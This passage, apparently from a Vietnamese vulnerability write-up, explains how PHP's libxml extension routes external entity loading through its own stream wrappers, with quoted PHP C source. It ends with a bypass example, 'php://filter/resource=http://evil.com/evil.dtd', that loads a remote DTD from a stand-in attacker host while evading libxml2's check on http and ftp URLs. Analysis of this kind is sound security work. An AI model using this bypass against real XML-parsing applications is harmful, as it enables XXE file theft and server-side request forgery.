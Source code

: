 Tuy nhiên PHP không dùng hàm mặc định `xmlDefaultExternalEntityLoader()` mà dùng `xmlParserInputBufferCreateFilenameDefault(php_libxml_input_buffer_create_filename); ` để override cách libxml2 mở file/entity.
```c
// ext/libxml/libxml

// sets custom handler implementation
xmlParserInputBufferCreateFilenameDefault(php_libxml_input_buffer_create_filename); 

static xmlParserInputBufferPtr
php_libxml_input_buffer_create_filename(const char *URI, xmlCharEncoding enc)
{
    …
	context = php_libxml_streams_IO_open_read_wrapper(URI);
    …
    ret = xmlAllocParserInputBuffer(enc);
	if (ret != NULL) {
		ret->context = context;
		ret->readcallback = php_libxml_streams_IO_read;
		ret->closecallback = php_libxml_streams_IO_close;
	}

	return(ret);
}

static void *php_libxml_streams_IO_open_read_wrapper(const char *filename)
{
	return php_libxml_streams_IO_open_wrapper(filename, "rb", 1);
}


static void *php_libxml_streams_IO_open_wrapper(const char *filename, const char *mode, const int read_only)
{
    …
	} else {
		resolved_path = (char *)filename;
	}
    …
	php_stream_wrapper *wrapper = php_stream_locate_url_wrapper(resolved_path, &path_to_open, 0);
    …
	php_stream *ret_val = php_stream_open_wrapper_ex(path_to_open, mode, REPORT_ERRORS, NULL, context); // [3]
    …
	return ret_val;
}
```
Tức là: PHP thay đổi cách load file/entity, dùng hệ thống riêng gọi là stream wrapper (`php://`, `file://`, `data://`, v.v)

⚠️ Vấn đề phát sinh là gì? 
- libxml2 chỉ chặn URL bắt đầu bằng `http://` hoặc `ftp://`
- NHƯNG nếu bọc HTTP trong wrapper như `php://filter/...` theo kiểu: `php://filter/resource=http://evil.com/evil.dtd`, libxml2 không nhận ra đây là HTTP, nên PHP vẫn gửi request như bình thường. 
